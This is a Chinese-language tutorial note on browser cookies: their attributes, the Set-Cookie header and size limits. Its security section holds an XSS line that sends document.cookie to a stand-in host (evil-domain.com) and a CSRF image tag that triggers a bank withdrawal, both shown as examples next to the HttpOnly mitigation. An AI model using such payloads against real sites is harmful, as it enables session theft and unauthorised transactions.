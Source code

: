 # 了解cookie

## 什么是cookie？
cookie是服务端保存在浏览器的一小段文本。当web服务器向浏览器发送web页面是，连接关闭后服务端不会记录用户的信息。cookie的作用就是解决“如何记录客户端的用户信息”。
- 当用户访问web页面，把信息可以记录在cookie
- 当用户下次访问时，可以在cookie中读取用户访问记录  

使用场景：
- 对话管理：保存登录、购物车等需要记录的信息
- 个性化：保存用户的偏好，比如网页的字体大小、背景色
- 追踪：记录和分析用户的行为

在服务端生成，在客户端以key-value形式保存用户信息

## Cookie的几个中枢性
- Expires和Max-Age
Expires指定一个具体的的到期时间，到指定时间之后，浏览器就不再保留这个cookie，值是UTC格式  
Max-Age指定从现在开始cookie存在的秒数，优先级比Expires高  
如果两者都不设置，cookie就是session Cookie，关闭浏览器就不会保留这个cookie
- Domain和path
这两个属性决定HTTP请求的时候那些请求会带上那些Cookie 
- Secure和HttpOnly
Secure属性指定浏览器只有在加密协议HTTPS下才能将这个Cookie发送到服务器，如果是HTTP，浏览器会自动忽略服务器发来的Secure属性
HttpOnly属性指定该Cookie无法通过JavaScript脚本拿到，Document.cookie属性、XMLHttpRequest对象和Request API都拿不到该属性

## cookie设置
服务器如果希望在浏览器保存Cookie，在HTTP回应的头信息里面放置一个Set-Cookie字段
```$xslt
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```
Set-Cookie设置多个属性
```$xslt
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly
```
Set-Cookie修改已经存在的cookie值，必须匹配所有的属性值（存在的时候），否则生成新的cookie  
浏览器根据Domain和path属性决定请求是否带上cookie，只有访问Domain + path及子路径才会带上

## Cookie安全
**会话劫持和XSS**
```$xslt
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
使用HttpOnly类型的cookie组织JS对其访问从而缓解这种攻击
**跨站点请求伪造（CSRF）**
```$xslt
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

## cookie自动删除和手动删除
- 发送服务器的所有cookie的最大数量不能4kb，cookie都会被阶段并且不会发送到服务器端
- IE7限制每个域名cookie的数量不超过50个，Opera限定cookie的数量为30个，Safari和Chrome就没有这种限制

限制cookie的原因，阻止cookie的滥用，cookie太大发送到服务端会影响请求的性能
**自动删除的几种可能**
- 会话 cookie(session cookie)在会话结束的时候会被删除
- 持久化cookie在达到失效日期的时候会被删除
- 浏览器的cookie达到上限，会自动清除，为新建的cookie腾出空间

原文:  
[菜鸟教程](https://www.runoob.com/js/js-cookies.html)  
[前端须知的Cookie知识小结](https://juejin.cn/post/6844903841909964813)
